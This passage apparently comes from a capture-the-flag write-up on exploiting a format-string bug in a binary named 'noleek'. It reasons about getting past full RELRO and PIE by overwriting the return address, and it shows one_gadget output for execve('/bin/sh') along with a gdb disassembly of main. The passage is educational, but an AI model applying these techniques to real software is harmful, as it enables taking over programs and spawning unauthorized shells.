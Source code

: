 There are two `fprintf` calls with format strings that we control, but they go to `/dev/null` so we don't get any of the output.
There's also full RELRO and PIE, so we have to overwrite the return address instead of the GOT in order to redirect execution.

I first checked if there is a usable one gadget:

<pre><code>[fedora@fedora noleek]$ one_gadget libc.so.6 
<span style="color:#D7D7FF">0xc961a</span> execve(&quot;/bin/sh&quot;, <span style="color:#5FFF00">r12</span>, <span style="color:#5FFF00">r13</span>)
<span style="color:#FF5F5F">constraints</span>:
  [<span style="color:#5FFF00">r12</span>] == NULL || <span style="color:#5FFF00">r12</span> == NULL
  [<span style="color:#5FFF00">r13</span>] == NULL || <span style="color:#5FFF00">r13</span> == NULL

<span style="color:#D7D7FF">0xc961d</span> execve(&quot;/bin/sh&quot;, <span style="color:#5FFF00">r12</span>, <span style="color:#5FFF00">rdx</span>)
<span style="color:#FF5F5F">constraints</span>:
  [<span style="color:#5FFF00">r12</span>] == NULL || <span style="color:#5FFF00">r12</span> == NULL
  [<span style="color:#5FFF00">rdx</span>] == NULL || <span style="color:#5FFF00">rdx</span> == NULL

<span style="color:#D7D7FF">0xc9620</span> execve(&quot;/bin/sh&quot;, <span style="color:#5FFF00">rsi</span>, <span style="color:#5FFF00">rdx</span>)
<span style="color:#FF5F5F">constraints</span>:
  [<span style="color:#5FFF00">rsi</span>] == NULL || <span style="color:#5FFF00">rsi</span> == NULL
  [<span style="color:#5FFF00">rdx</span>] == NULL || <span style="color:#5FFF00">rdx</span> == NULL
</code></pre>

<pre><code>[fedora@fedora noleek]$ gdb noleek_patched 
...
<span style="color:#C01C28"><b>gef➤  </b></span>disas main
Dump of assembler code for function <span style="color:#A2734C">main</span>:
...
   <span style="color:#005DD0">0x0000000000001273</span> &lt;+222&gt;:  <span style="color:#26A269">mov    </span><span style="color:#C01C28">edx</span>,<span style="color:#005DD0">0x0</span>
   <span style="color:#005DD0">0x0000000000001278</span> &lt;+227&gt;:  <span style="color:#26A269">mov    </span><span style="color:#C01C28">esi</span>,<span style="color:#005DD0">0x0</span>
   <span style="color:#005DD0">0x000000000000127d</span> &lt;+232&gt;:  <span style="color:#26A269">mov    </span><span style="color:#C01C28">edi</span>,<span style="color:#005DD0">0x0</span>
   <span style="color:#005DD0">0x0000000000001282</span> &lt;+237&gt;:  <span style="color:#26A269">call   </span><span style="color:#005DD0">0x1185</span> &lt;<span style="color:#A2734C">cleanup</span>&gt;
   <span style="color:#005DD0">0x0000000000001287</span> &lt;+242&gt;:  <span style="color:#26A269">mov    </span><span style="color:#C01C28">eax</span>,<span style="color:#005DD0">0x0</span>
   <span style="color:#005DD0">0x000000000000128c</span> &lt;+247&gt;:  <span style="color:#26A269">leave</span>
   <span style="color:#005DD0">0x000000000000128d</span> &lt;+248&gt;:  <span style="color:#26A269">ret</span>
End of assembler dump.
<span style="color:#C01C28"><b>gef➤  </b></span>b *main+248
Breakpoint 1 at <span style="color:#005DD0">0x128d</span>
<span style="color:#C01C28"><b>gef➤  </b></span>r
Starting program: <span style="color:#26A269">/home/fedora/noleek/noleek_patched</span> 
...
leek? foo
more leek? bar
noleek.
